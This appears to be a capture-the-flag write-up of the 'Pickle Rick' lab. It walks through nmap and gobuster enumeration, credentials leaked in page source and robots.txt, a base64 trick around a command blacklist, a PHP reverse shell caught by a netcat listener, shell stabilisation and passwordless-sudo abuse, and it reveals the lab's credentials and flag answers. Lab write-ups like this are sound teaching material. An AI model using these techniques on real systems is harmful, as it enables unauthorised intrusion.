

## Nmap: 
---
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-22 11:38 CET
Nmap scan report for 10.65.166.243
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3f:04:8f:9f:aa:f6:2e:ae:51:d1:7d:4c:14:9b:70:ec (RSA)
|   256 c0:79:92:89:18:c2:50:c6:dd:4f:85:55:64:ca:8e:70 (ECDSA)
|_  256 e3:eb:9e:91:27:d9:3f:56:9f:75:28:47:08:77:94:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.12 seconds
```
- we see that port 80 and 22 is open 
- lets see what we can find on the web-server 
## Enumeration: 
---

- that's the first thing we see, when we open up the website 
- when we inspect the source-code (press `Ctrl+U`), we can see this comment: 
```HTML
<!-- Note to self, remember username! Username: R1ckRul3s -->
```
- so we have found a `username`  
- lets enumerate the web-server with `gobuster`: 
```bash 
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://10.65.166.243/ -o gobuster/first_enum
```
- with the `-o` Flag we can write the output in a chosen file

```
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.65.166.243/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 278]
```
- in the `gobuster`-output we can see that their is a `robots.txt` file
- when we access that file, we see this: 
```
Wubbalubbadubdub
```
- this could be the password for `R1ckRul3s`
- after i found this, i searched for a login-page although `gobuster` didn't found one
- i did another `gobuster` scan with a bigger wordlist and i found `login.php` 
- i tested the creds and got logged in
![[Pickle_Rick_2.png]]
- we see a Input-Form, where we can input `commands` 
- before i tested the form, i once again inspected the source-code and found this: 
```html
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```
- this looks like a `base64` encoded String, lets decode it: 
```bash 
echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d 
```
- `Output`: 
```bash 
VmpGU1NtVkdTWGxTYkdScFUwWktjRlZyVmt0VE1WWnhVMjA1VG1KSGVIbFhhMXBoVlZaV1ZVMUVhejA=base64: invalid input
```
- so we see that the output is another `base64` encoded String
- i piped it again into `base64` and the output was again a `base64` encoded String 
- i did this a couple times until the String `rabbit hole` popped up, so a dead end 

- after that i tested the `form`
- when we type `ls` as the input, we see that the command was executed and the output was this: 
```bash 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
- lets try to `cat` the `Sup3rS3cretPickl3Ingred.txt` 

![[Pickle_Rick_3.png]]-
- that means that probably a blacklist is set, that block specific `commands`  
- we can try to read the file with `base64`: 
```bash
base64 Sup3rS3cretPickl3Ingred.txt | base64 -d
```
- it works and we get this output: `mr. meeseek hair`
- so we got the first ingredient
- now lets test if we can deploy a `PHP` Reverse-Shell 
- first i execute a listener on my attacker-machine with `netcat`: 
```bash
nc -lnvp 1234
```
- then i went to https://www.invicti.com/learn/reverse-shell and copied the `PHP` reverse-shell one-liner and put that into the `form`
- like this: 
![[Pickle_Rick_4.png]]
- after i executed it, i checked my Terminal for the `nc -lnvp 1234` if i got a reverse-shell and i indeed got one 
- to get a little more stable shell i always to this on the target-machine: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

- after that i tried to read the `clue.txt` we found earlier and the output was this: 
```bash
www-data@ip-10-65-166-243:/var/www/html$ cat clue.txt
Look around the file system for the other ingredient. 
```
- i also executed `sudo -l` to see if we can run anything with root privileges: 
```bash 
Matching Defaults entries for www-data on ip-10-65-166-243:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-65-166-243:
    (ALL) NOPASSWD: ALL
```
- so that means that we can run basically anything with root privileges without needing the root password  
- so i tried to find the ingredients with `find`: 
```bash 
www-data@ip-10-65-166-243:/var/www/html$ sudo find / -name "*ingredient*" 2>/dev/null
/home/rick/second ingredients
```
- so we found the second ingredient, lets read it with `cat 'second ingredients'`
- after that i thought we third ingredient should be in the `/root` directory and i tried to list it out with `sudo ls -la /root`
- this is the output: 
```bash
www-data@ip-10-65-131-116:/home$ sudo ls -la /root
sudo ls -la /root
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Dec 22 12:16 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap 
```
- so we found the last ingredient lets read it with `cat` 
```bash
3rd ingredients: fleeb juice
```